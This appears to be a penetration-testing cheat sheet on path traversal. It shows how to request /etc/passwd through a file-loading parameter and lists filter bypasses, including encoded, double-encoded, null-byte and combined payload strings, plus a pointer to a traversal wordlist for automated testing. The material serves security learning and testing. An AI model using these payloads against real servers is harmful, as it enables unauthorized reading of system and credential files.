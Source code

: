 ```yaml
---
title: "Path traversal"
weight: 19
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Bypass defences

* Elimination (strip): `../` -> `....//`
  * Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` ->`%2e%2e%2f`
* Double-encode: `../` ->`%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## Automatic exploitation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
